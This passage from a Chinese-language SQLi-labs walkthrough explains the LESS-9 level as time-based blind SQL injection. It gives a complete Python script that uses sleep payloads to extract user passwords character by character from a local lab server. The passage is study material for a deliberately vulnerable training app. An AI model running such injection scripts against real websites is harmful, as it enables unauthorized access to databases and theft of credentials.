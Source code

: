 ```python
        break
    password += chr(mid)
    hexstr += hex(mid)[2:]
    i += 1
    print(password)

```

得到结果如下：

![image-20220325235255510](./image-20220325235255510.png)

## LESS-9

回显永远不变，但是参数后跟SQL语句sleep可以看到网页返回速度慢，说明是时间盲注。

将上面的脚本稍微改改就成了时间盲注脚本了：

```python

import requests

url = 'http://192.168.237.128:12903/Less-9/?id='

password = ''
hexstr = ''
i = 1
while True:
    left = 32
    right = 128
    mid = (left+right) // 2
    while left < right:
        payload = f"1'/**/or/**/if(lpad((select/**/group_concat(distinct/**/password)/**/from/**/users),{i},1)>0x{hexstr}{hex(mid)[2:]},sleep(0.01),1)%23"

        res = requests.get(url + payload)
        if res.elapsed.microseconds >= 100000:
            left = mid + 1
        else:
            right = mid
        mid = (left + right) // 2
    if mid <= 32 or mid >= 127:
        break
    password += chr(mid)
    hexstr += hex(mid)[2:]
    i += 1
    print(password)

```

> Docker容器里的参数好像有点问题，sleep(1)返回用了12秒，sleep(0.1)用了1.2秒。上面脚本实际使用改一下sleep参数即可。

输出如下：
